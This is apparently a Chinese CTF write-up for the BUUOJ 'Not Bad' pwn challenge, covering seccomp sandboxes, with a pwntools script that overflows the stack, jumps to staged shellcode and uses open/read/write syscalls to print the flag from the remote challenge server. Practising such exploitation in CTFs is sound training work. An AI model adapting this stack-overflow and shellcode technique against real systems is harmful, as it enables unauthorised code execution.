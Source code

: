 ```yaml
---
title: orw
tags: [ctf-pwn,stack]
date: 2023-10-18 18:11:00
categories: [ctf-pwn]
excerpt: 沙箱保护机制
---
```


##### 安装seccomp

```shell
sudo apt install gcc ruby-dev
gem install seccomp-tools
```

<https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Not%20Bad>

![](/img/ctf-pwn/orw/1.jpg)



```python
from pwn import *
#p = process("./bad")
p=remote("node4.buuoj.cn",28003)

context(arch='amd64', os='linux')
mmap=0x123000
jmp_rsp = 0x400A01
orw_payload = shellcraft.open("./flag")
orw_payload += shellcraft.read(3, mmap, 0x50)
orw_payload += shellcraft.write(1, mmap,0x50)

payload=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
payload=payload.ljust(0x28,b'\x00')
payload+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')
# ret的时候，相当于pop rip，rsp就会指向返回地址下一个栈参数，也就是说，jmp rsp之后，就会执行sub rsp,0x30

p.recvuntil('Easy shellcode, have fun!')
p.sendline(payload)

shellcode=asm(orw_payload)
p.sendline(shellcode)
p.interactive()
```

